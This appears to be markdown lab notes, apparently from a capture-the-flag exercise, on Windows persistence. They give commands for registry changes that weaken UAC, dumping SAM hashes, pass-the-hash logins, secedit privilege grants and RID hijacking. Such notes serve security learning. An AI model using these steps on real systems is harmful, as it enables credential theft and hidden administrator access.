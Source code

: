 # Windows Persistance

## Privilege Escalation
Accesing the machine using WinRM
```sh
evil-winrm -i 10.10.10.10 -u user -p password
```

After spawning the reverse shell we will notice we still do not have permissions:
```sh
net localgroup administrators thmuser0 /add

BUILTIN\Backup Operators - Group used for deny only
```
This is due to User Account Control (UAC) and LocalAccountTokenFilterPolicy which will strip any local account of it's admin privileges during a remote log in.

## Disable LocalAccountTokenFilterPolicy
Change the following registry value:
```sh
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

## Backup SAM and SYSTEM files
```sh
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```

## Dump password hashes
```sh
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```

Pass the hash to evil-winrm. Remember to pass the proper hash segment (the second one)
```sh
evil-winrm -i 10.10.10.10 -u Administrator -H <HASH>
```

## SecEdit
Using `secedit` we can alter the configuration files to add our new user.
```sh
secedit /export /cfg config.inf
```
Add user to the end of the `SeBackupPrivilege` line
```sh
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,username
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,username
```

Open the configuration manager and add a new user
```sh
Set-PSSessionConfiguration -Name Microsoft.Powershell -showSecurityDescriptorUI
```

Note: for this user to work with the given privileges you need to change LocalAccountTokenFilterPolicy registry key.

## RID Hijacking
- Relative ID (RID)
- Assigned when a new user is created
- On login the LSASS process gets it's RID from the SAM registry and creates a token.
When a user is created, an RID is assigned to them. When a user logs on the LSASS process gets it's RID from the SAM registry.'
- Default admin is assign RID=500
- Regular users have RID >= 1000

If we can tamper with this registry value we can make windows assign an admin token to an unprivileged user by associating the same RID to both accounts.

The RID is located at the end of the SID string:
```sh
wmic useraccount get name,sid

Name                SID
Administrator       5-1-5-21-1966530601-3185510712-10604624-500
```

The SAM is restrictud to SYSTEM accounts only. Admin will not be able to edit it. 
```sh
PSExec64.exe -i -s regedit
```
Once the registry editor opens navigate to:
HKEY_LOCAL_MACHINE/SAM/SAM/Domaains/Account/Users

This will contain a key and value.  1010 = 0x3F2
key: F
value: HEX

Under the Users we can match this value to this user:
Users/000003F2
![registry example](Images/registry.png)

This RID is stored using little-endian notation so the bytes are reversed.

Replace the two bytes with RID of Administrator in hex (500 = 0x01F4), switching around the bytes to (F401)
![registry example](Images/registry-after.png)


